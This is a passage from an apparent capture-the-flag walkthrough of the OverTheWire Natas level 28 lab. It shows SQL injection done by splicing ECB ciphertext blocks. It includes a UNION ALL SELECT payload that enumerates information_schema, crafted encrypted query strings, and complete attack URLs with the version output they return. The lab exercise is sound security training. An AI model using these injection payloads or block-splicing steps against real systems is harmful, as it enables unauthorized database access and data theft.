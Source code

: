 ```text
G%2BglEae6W%2F1XjA7vRm21nNyEco%2Fc%2BJ2TdR0Qp8dcjPItlMM3qTizkRB5P2zYxJsb2dPBxTZC%2BbWauLOkXKSldf9NlyXGvkIBZS0H2cm0CZCy2L%2BujugTc3uskYy%2B0vQP%2FgPRS5ySIqJcuLn1nM88m8qM9OYQkTq645oGdhkgSlo%3D
```

The url you need to enter looks like this:  
```text
http://natas28.natas.labs.overthewire.org/search.php/?query=G%2BglEae6W%2F1XjA7vRm21nNyEco%2Fc%2BJ2TdR0Qp8dcjPItlMM3qTizkRB5P2zYxJsb2dPBxTZC%2BbWauLOkXKSldf9NlyXGvkIBZS0H2cm0CZCy2L%2BujugTc3uskYy%2B0vQP%2FgPRS5ySIqJcuLn1nM88m8qM9OYQkTq645oGdhkgSlo%3D
```

Now, if you visit this url, you can see the following, or similar:  

```text
8.0.32-0ubuntu0.22.04.2 
```

That is certainly not from the 'Whack Computer Joke Database', but this is the output of `SELECT @@version;#`.  

Following the same rules, let's try something else!  
```sql
                                                         '                    UNION ALL SELECT CONCAT(TABLE_SCHEMA,TABLE_NAME, COLUMN_NAME) from information_schema.columns;#
```
A sample query can be found for this in the file, named `task28_part_4.php`.  


If you run this in the browser, if wont work, however, we only need the query, to modify it a little bit:  

```text
G+glEae6W/1XjA7vRm21nNyEco/c+J2TdR0Qp8dcjPItlMM3qTizkRB5P2zYxJsb  
1QUGiYVagiNrSbQhjFbdR9UFBomFWoIja0m0IYxW3UfpvYuWpJLWcgW7ceMY47WL  
2dPBxTZC+bWauLOkXKSldf9NlyXGvkIBZS0H2cm0CZAt16kh1p+eDzmMHzd4Rv+x  
L8i3+0SgWwhBxzkIDnHIo1xdYFdVyHGd1t8qHYFWvyTfRrdjoFiiuFN8Qe44ZIrJ  
qxywQ/RZbvzB2Pl7IXvPLZlAdNDYzIkHvT39dSjNSdtCV6ND2q2q8sDjodcc4D3R  
e3usplXymKMh6Q4/emDU2A==  
```

Following the same rules as before, we only need to remove the second column, and reassemble the ciphertext, and url encode it.

So, after reassembling, leaving the second block out:  
```text
G+glEae6W/1XjA7vRm21nNyEco/c+J2TdR0Qp8dcjPItlMM3qTizkRB5P2zYxJsb2dPBxTZC+bWauLOkXKSldf9NlyXGvkIBZS0H2cm0CZAt16kh1p+eDzmMHzd4Rv+xL8i3+0SgWwhBxzkIDnHIo1xdYFdVyHGd1t8qHYFWvyTfRrdjoFiiuFN8Qe44ZIrJqxywQ/RZbvzB2Pl7IXvPLZlAdNDYzIkHvT39dSjNSdtCV6ND2q2q8sDjodcc4D3Re3usplXymKMh6Q4/emDU2A==
```
After url encoding:  
```text
G%2BglEae6W%2F1XjA7vRm21nNyEco%2Fc%2BJ2TdR0Qp8dcjPItlMM3qTizkRB5P2zYxJsb2dPBxTZC%2BbWauLOkXKSldf9NlyXGvkIBZS0H2cm0CZAt16kh1p%2BeDzmMHzd4Rv%2BxL8i3%2B0SgWwhBxzkIDnHIo1xdYFdVyHGd1t8qHYFWvyTfRrdjoFiiuFN8Qe44ZIrJqxywQ%2FRZbvzB2Pl7IXvPLZlAdNDYzIkHvT39dSjNSdtCV6ND2q2q8sDjodcc4D3Re3usplXymKMh6Q4%2FemDU2A%3D%3D
```
The full URL should be:  
```text
http://natas28.natas.labs.overthewire.org/search.php/?query=G%2BglEae6W%2F1XjA7vRm21nNyEco%2Fc%2BJ2TdR0Qp8dcjPItlMM3qTizkRB5P2zYxJsb2dPBxTZC%2BbWauLOkXKSldf9NlyXGvkIBZS0H2cm0CZAt16kh1p%2BeDzmMHzd4Rv%2BxL8i3%2B0SgWwhBxzkIDnHIo1xdYFdVyHGd1t8qHYFWvyTfRrdjoFiiuFN8Qe44ZIrJqxywQ%2FRZbvzB2Pl7IXvPLZlAdNDYzIkHvT39dSjNSdtCV6ND2q2q8sDjodcc4D3Re3usplXymKMh6Q4%2FemDU2A%3D%3D
``` 

